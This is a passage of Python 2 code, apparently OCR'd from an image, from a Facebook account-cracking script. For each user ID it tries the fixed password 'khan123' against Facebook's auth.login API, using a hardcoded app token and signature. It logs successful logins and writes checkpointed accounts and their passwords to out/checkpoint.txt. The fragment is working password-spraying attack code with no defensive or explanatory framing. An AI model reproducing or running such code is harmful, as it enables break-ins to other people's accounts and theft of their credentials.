 	for o in titik:

		print("\r\033[1;96m[\033[1;97m \033[1;96m] \033[1;93mCracking \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)

	print

	print('\x1b[1;96m \x1b[1;93mTo Stop Process Press CTRL Then Press z')

	print 42*"\033[1;96m="

	

			

	def main(arg):

		global cekpoint,oks

		user = arg

		try:

			os.mkdir('out')

		except OSError:

			pass

		try:

			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

			b = json.loads(a.text)

			pass1 = ('khan123')

			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

			q = json.load(data)

			if 'access_token' in q:

				print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1

				oks.append(user+pass1)

			else:

				if 'www.facebook.com' in q["error_msg"]:

					print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m |\x1b[1;97m ' + pass1

					cek = open("out/checkpoint.txt", "a")

					cek.write(user+"|"+pass1+"\n")

					cek.close()

					cekpoint.append(user+pass1)
